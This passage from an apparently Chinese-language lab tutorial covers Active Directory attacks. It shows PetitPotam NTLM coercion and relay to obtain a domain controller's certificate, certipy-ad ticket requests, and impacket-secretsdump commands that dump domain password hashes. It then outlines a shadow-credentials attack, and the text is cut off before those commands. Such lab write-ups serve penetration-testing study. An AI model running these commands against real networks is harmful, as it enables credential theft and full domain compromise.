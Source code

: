 （3）执行 NTLM 强制认证利用工具。

    python PetitPotam.py 192.168.56.20 192.168.56.51
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120531045-1322385585.png)

（4）获得机器账户 DC2013 的 kerberos 认证证书。

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120551522-1833752964.png)

可以看到，中继转发成功，我们成功申请到了机器账户 DC2013 的 kerberos 认证证书。

（5）发起 kerberos 证书认证并请求到 TGT 票据

    certipy-ad auth -pfx 'DC2013$.pfx' -ns 192.168.56.50
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120613658-1622243828.png)

> 注：[Certipy-AD](https://github.com/ly4k/Certipy) 是一个用于 **Active Directory 证书服务（AD CS）攻击与枚举** 的强大工具，尤其在执行 AD 证书相关攻击（如 ESC1~ESC8）时非常常用。

（6）通过票据传递攻击转储域用户的哈希。

    export KRB5CCNAME=dc2013.ccache
    
    impacket-secretsdump -k -no-pass 'dc2013$@dc2012.skylark.com' -dc-ip 192.168.56.50 -target-ip 192.168.56.50
    
    #或 impacket-secretsdump 'skylark.com/dc2013$'@192.168.56.50 -hashes aad3b435b51404eeaad3b435b51404ee:3a22ea39aa8ab8752381e686a4201661
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120634888-1856033798.png)

**

3、影子凭证

**
--------------

#### 环境简介

*   域名 - skylark.com
*   主域控 - DC2016 - Windows 2016 Standard - 192.168.56.52
*   备域控 - DC2017 - Windows 2016 Standard - 192.168.56.53
*   Kali - 192.168.56.20

#### 攻击条件

*   域控的操作系统必须是 Windows 2016+，因为 msDS-KeyCredentialLink 属性自 Windows 2016 才初次引进。
*   主备域控必须要有一个安装了 ADCS 服务，因为只有安装了 ADCS 服务，域控才支持 kerberos 证书认证。【注：在此例中，只有主域控安装了 ADCS 服务，备域控没有安装，因此我们中继的目标便只能是主域控。】

#### 攻击流程

在本例中，经检测发现备域控存在 PetitPotam 漏洞。为此，我们可以利用该漏洞，强制让备域控以机器账户 DC2017 的身份向 kali 机器发起 SMB 认证。接着，让 kali 将该机器账户的认证信息通过 LDAP 协议中继到主域控，进而在主域控中为机器账户 DC2017 新增一个 msDS-KeyCredentialLink 属性并为其生成和设置有关证书认证相关的数字证书信息。然后，利用这个机器账户向域控发起 kerberos 证书认证，从而申请到 DC2017 的 TGT 票据。最后，就可以通过这张服务票据请求到 DC2017 机器账户的哈希，从而就可以通过哈希传递转储域中所有用户的哈希了。具体操作流程如下：
